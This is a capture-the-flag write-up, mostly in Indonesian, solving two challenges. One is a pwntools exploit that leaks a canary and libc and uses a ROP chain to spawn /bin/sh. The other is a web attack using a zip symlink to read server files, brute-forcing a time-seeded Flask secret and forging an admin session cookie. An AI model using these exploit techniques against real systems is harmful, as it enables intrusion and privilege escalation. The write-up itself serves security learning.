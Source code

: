 ## pwn
---
### typop
leak canary > leak libc > ret2libc
solver:
```python
from pwn import *
import sys
from Crypto.Util.number import bytes_to_long

BINARY = "./chall_patched"
context.binary = exe = ELF(BINARY, checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 64
context.arch = "amd64"
libc = ELF("./libc.so.6", checksec=False)


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p
        self.canary = 0

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
            else:
                attach(self.p)

    def get_canary(self):
        p = self.p
        p.sendlineafter(b"Do you want to complete a survey?", b"y")
        pay = b"A"*10
        p.sendlineafter(b"Do you like ctf?", pay)
        p.recvline()
        p.recvline()
        leak = p.recvline()[:-7][::-1]
        leak = bytes_to_long(leak+b"\x00")
        log.info(f"canary 0x%x", leak)
        self.canary = leak
        pay = b"A"*10+p64(self.canary)
        p.sendlineafter(b"Aww :( Can you provide some extra feedback?", pay)

    def get_exe_address(self):
        p = self.p
        p.sendlineafter(b"Do you want to complete a survey?", b"y")
        pay = b"A"*25
        p.sendlineafter(b"Do you like ctf?", pay)
        p.recvline()
        p.recvline()
        leak = p.recvline()[::-1].strip()
        leak = bytes_to_long(leak)
        leak = (leak - (leak & 0xfff)) - 0x1000
        log.info(f"exe.address 0x%x", leak)
        exe.address = leak
        p.clean()
        pay = b"A"*10+p64(self.canary)
        p.sendline(pay)
	def ropper(self, content):
        p = self.p
        p.sendlineafter(b"Do you want to complete a survey?", b"y")
        p.sendlineafter(b"Do you like ctf?", b"y")
        p.recvlines(4)
        pay = b"A"*10+p64(self.canary)
        pay += b"A"*8
        pay += content
        p.sendline(pay)

    def get_libc_address(self):
        p = self.p
        r = ROP(exe)
        r.call(exe.sym['puts'], [exe.got['fgets']])
        r.call(exe.sym['main'])
        self.ropper(flat(r))
        leak = p.recvline().strip()[::-1]
        print(leak)
        leak = bytes_to_long(leak) - libc.sym['fgets']
        log.info("libc @ 0x%x", leak)
        libc.address = leak


x, p = init()
x.debug((
    # "break *getFeedback+75\nc\nc\n"
    # "break *getFeedback+193\nc\n"
    # "break *getFeedback+199\nc\n"
))
x.get_canary()
x.get_exe_address()
x.get_libc_address()

r = ROP(libc)
r.raw(r.find_gadget(['ret']))
r.call(libc.sym['system'], [libc.search(b"/bin/sh").__next__()])
x.ropper(flat(r))

p.interactive()
```

## web
---
### Simple File Server
Vulnerability:
- unzip symlink lead to linking arbitary file
- unsecure jwt secret key generator using non-cryptograpy secure random module
- jwt tampering 
vulnerability pertama yaitu berada di src/app.py

```python
file.save(filename)
subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"]) # <- vuln
flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
```

mengambil referensi dari artikel berikut https://effortlesssecurity.in/2020/08/05/zip-symlink-vulnerability/.

kita bisa mengakali unzip dan meread arbitary file menggunakan symlink yang kita buat.
berikut cara yang saya gunakan untuk menggenerate symlink

```sh
rm a a.zip
ln -s /tmp/server.log a
zip -r --symlinks a.zip a
```

kemudian setelah itu kita upload zip yang berisi symlink tersebut

![](Pasted%20image%2020230116231049.png)

kemudian kita akses link yang nanti diberikan oleh server, kemudian akses vile symlink tersebut, misal:
http://simple-file-server.chal.idek.team:1337/uploads/f549e553-a14f-43d0-ba72-8153f3fa4398/a

Maka kita akan bisa mendownload file symlink tersebut yang berisi data dari /tmp/server.log dari server

![](Pasted%20image%2020230116231114.png)

Dari info tersebut kita bisa menggenerate jwt token. Ini mustahil karena kode untuk generate jwt token yang tidak secure.

`src/config.py`
```python
import random
import os
import time
from datetime import datetime

SECRET_OFFSET = 0 # REDACTED
random.seed(round((time.time() + SECRET_OFFSET) * 1000))
os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
```

diatas adalah kode yang digunakan untuk menggenerate secret keynya, kode tersebut menggunakan kombinasi time dan SECRET_OFFSET untuk menggenerate seed-nya random 

>Sedikit catatan, kita perlu mencari nilai dari SECRET_OFFSET dengan membaca file src/config.py di server.

Sekarang kita akan mencoba untuk menggenerate secret key dengan informasi yang tersedia diatas.

Kita akan menggunakan kode berikut untuk menggenerate secret:

```python
from datetime import datetime
import random

def get_secret():
    SECRET_OFFSET = -67198624 # didapat dari config.py
    datetime_str = f"23-01-13 23:04:17 +0000" # didapat dari log server
    datetime_object = datetime.strptime(datetime_str, '%y-%m-%d %H:%M:%S +0000')
    for i in range(9999999):
        if i % 5000 != 0: # membatasi agar tidak terlalu lama membuat list
            continue
        timestamp = datetime_object.timestamp()
        timestamp = timestamp + (i/10000000)
        random.seed(round((timestamp + SECRET_OFFSET) * 1000))
        secret_key = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
        yield secret_key


def secret_unique(): # membuat password list yang digenerate uniq agar tidak terlalu lama bruteforce
    uniq = set()
    for val in get_secret():
        uniq.add(val)
    return uniq        

if __name__ == "__main__":
    secrets = secret_unique()
    with open("secret_list.txt", "w") as f:
        for i in secrets:
            f.write(f"{i}\n")
```

>catatan karna kemungkinan ada perbedaan environmen di server dan juga loca, kita sebaiknya menjalankan script diatas menggunakan docker yang telah diberikan, agar wordlist yang dibuat bisa menghasilkan password yang benar

setelah kita mendapatkan wordlist kita, kita perlu melakukan bruteforce jwt, untuk mendapatkan token yang benar.

```sh
flask-unsign --unsign -c "eyJhZG1pbiI6bnVsbCwidWlkIjoiYXNkIn0.Y8IbDQ.5CrLhdzgXrFLPU_LzBLxA3vkE20" --wordlist secret_list.txt
```

kemudian dari token tersebut kita buat untuk membuat cookie baru yang berisi admin=1:

```sh
flask-unsign --sign --cookie "{'admin': 1, 'uid': 'asd'}" --secret 84787d274d6b7e03d94ce2dcbfe85bf1
```

kode tersebut akan menggenerate jwt token, kita gunakan jwt token tersebut ke website challenge, dan kita bisa membaca flag di http://simple-file-server.chal.idek.team:1337/flag 

![](Pasted%20image%2020230116231338.png)


